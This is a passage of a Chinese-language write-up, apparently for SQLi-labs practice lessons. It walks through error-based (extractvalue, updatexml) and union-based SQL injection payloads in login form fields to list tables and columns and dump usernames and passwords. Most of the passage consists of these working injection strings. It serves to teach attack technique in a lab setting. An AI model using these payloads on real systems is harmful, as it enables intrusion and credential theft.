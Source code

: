 只能查询到前几个表，后面加上not in ()就可以查到其他表了，如：

```
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() and table_name not in ('emails')))) --+&passwd=admin&submit=Submit
```

这里我们发现没有更多的表了，而users表应该是存放用户信息的，所以我们进入下一步。

爆列名payload

```
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) --+&passwd=admin&submit=Submit
```

使用同样方法，可以查询到其他列名，直到遍历出所有列名，我们找到password和uername，开始爆值。

爆值payload

```
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)))--+&passwd=admin&submit=Submit
```

同样使用not in 可以查询其他值：

```
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users where username not in ('Dumb','I-kill-you'))))--+&passwd=admin&submit=Submit
```

![image-20201110170257383](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110170257383.png)

通过单引号加注释绕过

![image-20201110170720666](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110170720666.png)

字段长度为2

![image-20201110170805915](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110170805915.png)

通过报错回显爆出数据库名

![image-20201110170943970](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110170943970.png)

```
uname=admin'and 1=2 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security' )# &passwd=1
```

![image-20201110171251151](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110171251151.png)

后续同Less-01



```
uname=admin'and 1=(updatexml(1,concat(0x3a,(select user())),1))#&passwd=1
```
